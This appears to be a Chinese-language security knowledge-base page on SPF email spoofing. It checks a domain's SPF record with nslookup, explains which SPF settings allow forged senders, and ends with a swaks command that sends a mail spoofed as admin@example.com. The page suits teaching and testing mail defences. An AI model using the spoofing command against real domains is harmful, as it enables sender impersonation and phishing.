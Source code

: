 ## 1. PoC

检测 spf 记录

```
┌──(root@debian)-[~]
└─# nslookup -type=TXT example.com
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
example.com     text = "_k2n1y4vw3qtb4skdx9e7dxt97qrmmq9"
example.com     text = "v=spf1 -all"

Authoritative answers can be found from:
```

```
v=spf1 -all: 无法伪造
v=spf1 ~all, v=spf1 ?all: 可能伪造
无 v=spf1 或 v=spf1 +all: 极易伪造
```

使用 [SPF Query Tool ](https://www.kitterman.com/spf/validate.html) 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护

![使用 SPF Query Tool 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护](./../../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E4%BD%BF%E7%94%A8%20SPF%20Query%20Tool%20%E8%A7%A3%E6%9E%90%20SPF%20%E8%AE%B0%E5%BD%95%E6%98%AF%E5%90%A6%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE,%20%E8%8B%A5%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%99%E5%8F%AF%E5%B0%9D%E8%AF%95%E7%BB%95%E8%BF%87%20SPF%20%E4%BF%9D%E6%8A%A4.png)

配置正确

```
v=spf1 include:spf1.example.com include:spf2.example.com include:spf3.example.com include:spf4.example.com -all
```

![配置正确](./../../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE.png)

配置错误

```
v=spf1 include:spf1.example.com spf2.example.com spf3.example.com spf4.example.com -all
```

![配置错误](./../../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF.png)

## 2. Exploit

伪造 example 向 test 发送邮件

```
┌──(root-kali)-[~]          
└─# swaks --body "Hello, World!" --header "Subject:example" -t admin@test.com -f admin@example.com
```

```
--body   邮件内容
--header 邮件标题
-t       目标邮箱
-f       伪造邮箱
```

